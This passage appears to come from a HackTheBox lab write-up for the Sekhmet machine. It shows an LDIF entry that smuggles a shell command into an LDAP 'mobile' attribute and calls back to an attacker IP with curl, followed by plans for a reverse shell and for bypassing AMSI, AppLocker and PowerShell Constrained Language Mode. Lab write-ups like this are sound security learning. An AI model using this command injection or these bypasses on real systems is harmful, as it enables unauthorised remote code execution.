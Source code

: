 I created this LDIF file first to test. Then I updated the entry and was surprised to get a hit back after a minute!

```bash
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1;curl http://10.10.14.149/rcecfmed
```


```bash
ldapmodify -Y GSSAPI -H ldap://windcorp.htb -D "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" -f change.ldif
```

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/37.png"  >

This confirms we have RCE. Now, we can attempt to gain a reverse shell on the machine. I tried downloading nc.exe on the machine, and noticed that there was a character limit on the mobile entry. Anyways, downloading the file to C:\Windows\Tasks\ works, but it does not seem to execute to give me my shell.

## AMSI + AppLocker Bypass


It's possible that a Windows security feature was preventing the reverse shell from running on the machine. I attempted to access various directories, including AppLocker, but encountered the same issue. If AppLocker is in use, it's possible that AMSI is also active, which means we can't simply use nc.exe to establish the reverse shell. Instead, we may need to create a new executable.

Due to character limitations, we'll need to create a .exe file for the reverse shell. To do so, I started searching for potential payloads on a Windows virtual machine. MinatoTW's repository proved particularly useful in this regard

MinatoTW github : <a href="https://github.com/MinatoTW/CLMBypassBlogpost" target="_blank">CLMBypassBlogpost</a>

Also you need to read : <a href=" https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/" target="_blank"> Powershell CLM Bypass Using Runspaces </a>





